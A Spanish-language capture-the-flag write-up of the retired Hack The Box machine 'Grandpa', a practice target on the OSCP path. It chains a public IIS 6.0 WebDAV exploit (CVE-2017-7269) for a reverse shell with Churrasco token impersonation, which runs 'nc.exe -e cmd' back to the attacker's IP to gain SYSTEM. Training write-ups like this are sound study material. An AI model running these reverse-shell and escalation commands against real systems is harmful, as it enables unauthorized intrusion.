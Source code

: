 ```yaml
---
layout: post
title:  "OSCP Path ~ Grandpa de Hack The Box (Necesario VIP)"
description: Writeup de la maquina de HackTheBox llamada GRANDPA siguiendo el PATH para el OSCP
tags: HTB, OSCP Path, IIS-6.0, JuicyPotato, Churrasco, Maquinas Retiradas, Writeup, Hacking
---
```


# Grandpa ~ Hack The Box to OSCP

Realizamos el Primer escaneo con Nmap
```bash
$" nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn -oG allports 10.10.10.14       "
``` 
Procedemos a listar la Version y Servicios para los puertos encontrados.
```bash
$" nmap -sC -sV -p80 -oN target 10.10.10.14           "

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-server-header: "Microsoft-IIS/6.0"
|_http-title: Under Construction
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   WebDAV type: Unknown
|   Server Date: Fri, 12 Nov 2021 11:34:26 GMT
|_  Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Vemos que tiene un servidor IIS-6.0 bastante desactualizado, procedemos a buscar vulnerabilidades acorder para esta version.
```bash
# Buscamos por IIS 6.0 github exploit --> Nos aparece el siguiente exploit 
# cat bof_iis_6.py 
https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/blob/master/iis6%20reverse%20shell
```

Procedemos a probarlo y vemos que es funcional y nos devuelve una consola interactiva
```bash
# python bof_iis_6.py                              
usage:iis6webdav.py targetip targetport reverseip reverseport

$ python bof_iis_6.py 10.10.10.14 80 10.10.16.7 443
```
Estando a la escucha por el puerto indicado recibimos la conexion entrante.
```bash
# rlwrap nc -vlnp 443                                                                     
listening on [any] 443 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.10.14] 1030
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>
```
Procedemos a enumerar un poco el systema
```bash
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
```
Vemos que tenemos el `SeImpersonatePrivilege`
Vamos a compartirnos un recurso compartido a nivel de red para pasarnos el `JuicyPotato.exe` para intentar escalar privilegios con el mismo
```bash
$ cd C:\WINDOWS\Temp\Privesc>

$ copy \\10.10.16.7\smbFolder\JuicyPotato.exe JuicyPotato.exe

$ Directory of C:\WINDOWS\Temp\Privesc

11/12/2021  02:30 PM    <DIR>          .
11/12/2021  02:30 PM    <DIR>          ..
09/30/2021  08:59 PM           347,648 JuicyPotato.exe
```
Vale pues procedemos a ejecutarlo.
```bash
JuicyPotato.exe
The image file C:\WINDOWS\Temp\Privesc\JuicyPotato.exe is valid, but is for a machine type other than the current machine.
```
NOS DA ERROR EL JUICYPOTATO .. AHORA QUE??? Procedemos a enumerar el OS que estamos.
```bash
systeminfo

Host Name:                 GRANPA
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            0 Days, 0 Hours, 8 Minutes, 54 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x86 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              INTEL  - 6040000
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk
Total Physical Memory:     1,023 MB
Available Physical Memory: 792 MB
Page File: Max Size:       2,470 MB
Page File: Available:      2,328 MB
Page File: In Use:         142 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: Q147222
Network Card(s):           N/A
```

Vamos a buscar por `Windows Server 2003 JuicyPotato escalation churrasco.exe`
```bash
https://github.com/Re4son/Churrasco/raw/master/churrasco.exe
```
Nos descargamos el binario y procedemos a pasarlo a la maquina victima. Nos copiamos en el directorio actual el `nc.exe` donde estemos compartiendo el recurso compartido.
```bash
churrasco.exe -d "\\10.10.16.7\smbFolder\nc.exe -e cmd 10.10.16.7 4444"
churrasco.exe -d "\\10.10.16.7\smbFolder\nc.exe -e cmd 10.10.16.7 4444"
/churrasco/-->Current User: NETWORK SERVICE 
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 668 
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 672 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 676 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 684 
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x734
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found SYSTEM token 0x72c
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!
```

Recibimos la conexion como Administradores del sistema.
```bash
# rlwrap nc -vlnp 4444
listening on [any] 4444 ...

connect to [10.10.16.7] from (UNKNOWN) [10.10.10.14] 1041
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP>
whoami
whoami
nt authority\system
```

Procedemos a sacar la flag `root.txt`
```bash
cd Desktop

dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FDCB-B9EF

 Directory of C:\Documents and Settings\Administrator\Desktop

04/12/2017  04:28 PM    <DIR>          .
04/12/2017  04:28 PM    <DIR>          ..
04/12/2017  04:29 PM                32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)   1,317,064,704 bytes free

type root.txt
type root.txt
9359e905a2c35fxxxxxxxxxxxxxxxxxxxx
```

Maquina Comprometida   KO H4ck =)
